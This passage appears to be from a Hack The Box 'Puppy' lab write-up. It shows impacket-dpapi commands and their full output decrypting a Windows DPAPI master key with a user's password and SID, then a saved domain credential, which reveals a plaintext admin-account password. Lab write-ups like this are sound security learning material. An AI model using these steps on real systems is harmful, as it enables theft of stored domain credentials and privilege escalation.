 Now we run the following commands to decrypt DPAPI secrets:

```
impacket-dpapi  masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107 
```
This command extracts the master key using the user’s password,masterkey_blob and SID.


```
┌──(kali㉿kali)-[~/HTB-machine/puppy/my-share]
└─$ impacket-dpapi  masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107                                                         

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
``` 

Then, we use the master key to decrypt the credential blob:

```
impacket-dpapi credential -file credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

```
This command decrypts the saved credentials using the extracted master key.

                                                                                                      

```                                                                            
┌──(kali㉿kali)-[~/HTB-machine/puppy/my-share]
└─$ impacket-dpapi credential -file credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!

```
